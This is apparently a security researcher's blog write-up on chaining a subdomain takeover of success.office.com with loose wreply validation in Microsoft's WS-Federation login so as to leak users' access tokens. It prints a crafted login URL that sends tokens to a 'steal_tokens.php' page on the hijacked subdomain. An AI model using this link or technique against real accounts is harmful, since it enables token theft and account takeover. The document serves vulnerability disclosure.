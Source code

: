 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349
&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php
&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.


<img src="https://raw.githubusercontent.com/sahadnk72/sahadnk72.github.io/master/files/outlook.jpg" />

<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>

